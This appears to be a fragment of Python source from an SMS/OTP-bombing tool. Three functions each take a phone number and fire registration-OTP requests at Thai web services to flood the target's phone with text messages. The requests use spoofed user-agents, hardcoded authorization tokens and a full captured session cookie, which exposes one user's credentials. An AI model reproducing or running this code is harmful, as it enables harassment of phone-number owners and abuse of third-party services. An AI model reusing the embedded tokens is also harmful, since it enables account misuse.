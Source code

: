 def api70(phone):

    post("https://prettygaming168-api.auto888.cloud/api/v3/otp/send", data={"tel":phone,"otp_type":"register"},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","authorization": "Basic 755b4608e637d413d668502704d93e377f4f67b2d3d0f50e5644af3607f31ddb3174ecaf5b2c40c86f9efc32de1ee0bbf3e7a2b32cb055a3cb7068e1bb152844"})

    

def api71(phone):

    post("https://www.bigthailand.com/authentication-service/user/OTP", json={"locale":"th","phone": f"+66{phone[1:]}","email":"dkdk@gmail.com","userParams":{"buyerName":"ekek ks","activateLink":"www.google.com"}},headers={"content-type": "application/json","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","authorization": "Bearer eyJ0eXAiOiJKV1QiLCJlbmMiOiJBMTI4Q0JDLUhTMjU2IiwiYWxnIjoiZGlyIn0..P9LOZOUnXvgw5wDxPqSuCg.jjRU6v4iidkFNv4nROigeng1s9e96LnzplOaml7YSasaTxwozO37IWuq-h6bV5JyxpaRvIL9UCochw-3OciWq_VrORNwnH45b-ziIAhZ-CpLpt1O_4EpM27y7TYXBb_w6DT3BJp1ARkG7CqSouTnGg.2n1G9HbFJzArFH5Rr2m9kg","cookie": "auth.strategy=local;auth._token.local=Bearer%20eyJ0eXAiOiJKV1QiLCJlbmMiOiJBMTI4Q0JDLUhTMjU2IiwiYWxnIjoiZGlyIn0..P9LOZOUnXvgw5wDxPqSuCg.jjRU6v4iidkFNv4nROigeng1s9e96LnzplOaml7YSasaTxwozO37IWuq-h6bV5JyxpaRvIL9UCochw-3OciWq_VrORNwnH45b-ziIAhZ-CpLpt1O_4EpM27y7TYXBb_w6DT3BJp1ARkG7CqSouTnGg.2n1G9HbFJzArFH5Rr2m9kg;_utm_objs=eyJzb3VyY2UiOiJnb29nbGUiLCJtZWRpdW0iOiJjcGMiLCJjYW1wYWlnbiI6ImFkd29yZHMiLCJj%0D%0Ab250ZW50IjoiYWR3b3JkcyIsInRlcm0iOiJhZHdvcmRzIiwidHlwZSI6InJlZmVycmVyIiwidGlt%0D%0AZSI6MTY0MjMyOTM5OTU4NSwiY2hlY2tzdW0iOiJaMjl2WjJ4bExXTndZeTFoWkhkdmNtUnpMVEUy%0D%0ATkRJek1qa3pPVGsxT0RVPSJ9;_pk_ref.564990563.2c0e=%5B%22%22%2C%22%22%2C1642329400%2C%22https%3A%2F%2Fwww.google.com%2F%22%5D;_pk_ses.564990563.2c0e=*;_gcl_au=1.1.833577636.1642329400;_asm_visitor_type=n;_ac_au_gt=1642329406505;cdp_session=1;_asm_uid=637506384;_ga=GA1.2.1026893832.1642329403;_gid=GA1.2.1437369318.1642329403;OptanonConsent=isIABGlobal=false&datestamp=Sun+Jan+16+2022+17%3A36%3A45+GMT%2B0700+(%E0%B9%80%E0%B8%A7%E0%B8%A5%E0%B8%B2%E0%B8%AD%E0%B8%B4%E0%B8%99%E0%B9%82%E0%B8%94%E0%B8%88%E0%B8%B5%E0%B8%99)&version=6.9.0&hosts=&consentId=e0fe7ec6-3c1e-4aa7-9e72-ecd2ed724416&interactionCount=0&landingPath=https%3A%2F%2Fwww.bigthailand.com%2Fcategory%2F850%2F%25E0%25B8%2599%25E0%25B9%2589%25E0%25B8%25B3%25E0%25B8%25A1%25E0%25B8%25B1%25E0%25B8%2599%25E0%25B9%2580%25E0%25B8%2584%25E0%25B8%25A3%25E0%25B8%25B7%25E0%25B9%2588%25E0%25B8%25AD%25E0%25B8%2587%25E0%25B9%2581%25E0%25B8%25A5%25E0%25B8%25B0%25E0%25B8%2582%25E0%25B8%25AD%25E0%25B8%2587%25E0%25B9%2580%25E0%25B8%25AB%25E0%25B8%25A5%25E0%25B8%25A7%2F%25E0%25B8%2599%25E0%25B9%2589%25E0%25B8%25B3%25E0%25B8%25A1%25E0%25B8%25B1%25E0%25B8%2599%25E0%25B9%2580%25E0%25B8%2584%25E0%25B8%25A3%25E0%25B8%25B7%25E0%25B9%2588%25E0%25B8%25AD%25E0%25B8%2587%3Fgclid%3DCj0KCQiAoY-PBhCNARIsABcz772kcpD38d5bhec3kfJbZgVxKFVwa2RmZytANH-PiwJdPXbqc7VOzCEaAuBkEALw_wcB&groups=C0001%3A1%2CC0003%3A1%2CC0002%3A1%2CC0007%3A1;_fbp=fb.1.1642329406623.363807498;_hjSessionUser_2738378=eyJpZCI6ImVkNmZhOGY3LTQwNDctNTNjMi04YTVjLTQ0OGE5MDA4YjhiZCIsImNyZWF0ZWQiOjE2NDIzMjk0MDQ4MDMsImV4aXN0aW5nIjpmYWxzZX0=;_hjFirstSeen=1;_hjIncludedInSessionSample=0;_hjSession_2738378=eyJpZCI6ImNhN2UwZDFhLTZkNmQtNGM0Mi04YmI1LTg4NWJmNzZjMGExZCIsImNyZWF0ZWQiOjE2NDIzMjk0MTEwNzcsImluU2FtcGxlIjpmYWxzZX0=;_hjIncludedInPageviewSample=1;_hjAbsoluteSessionInProgress=0;_gac_UA-165856282-1=1.1642329477.Cj0KCQiAoY-PBhCNARIsABcz772kcpD38d5bhec3kfJbZgVxKFVwa2RmZytANH-PiwJdPXbqc7VOzCEaAuBkEALw_wcB;_gcl_aw=GCL.1642329478.Cj0KCQiAoY-PBhCNARIsABcz772kcpD38d5bhec3kfJbZgVxKFVwa2RmZytANH-PiwJdPXbqc7VOzCEaAuBkEALw_wcB;_pk_id.564990563.2c0e=0.1642329400.1.1642329489.1642329400.;_ac_client_id=637515726.1642329496;_ac_an_session=zmzlzhzlzizqzmzjzkzjzdzlzgzkzmzizmzkzhzlzdzizlznzhzgzhzqznzqzlzdzizdzizlznzhzgzhzqznzqzlzdzizlznzhzgzhzqznzqzlzdzizdzgzjzizdzjzd2h25zdzgzdzezizd;au_id=637515726;_ga_80VN88PBVD=GS1.1.1642329399.1.1.1642329493.44"})

    

def api72(phone):

    post("https://api.cashmarket-th.com/app/userinfo/send/smsCode", json={"baseParams":{"platformId":"android","deviceType":"h5","deviceIdKh":"20220118121149smyjjs57jxtqbwkuu74y0vd6p5yzhrmp86872f73364d46d3bf9446ddd583ef61ee8fafe504bab46ec267ca96a99281d6rreqhrlgsg4p3srgv1i5s4pp8u9la6gf1","termSysVersion":"5.1.1","termModel":"A37f","brand":"","termId":"null","appType":"6","appVersion":"2.0.0","pValue":"","position":{"lon":"null","lat":"null"},"bizType":"0000","appName":"Cash Market","packageName":"com.cashmarketth.h5","screenResolution":"720,1280"},"clientTypeFlag":"h5","token":"","phoneNumber":"","timestamp":"1642479101529","bizParams":{"phoneNum":phone,"code":"null","type":200,"channelCode":"hJ071"}})
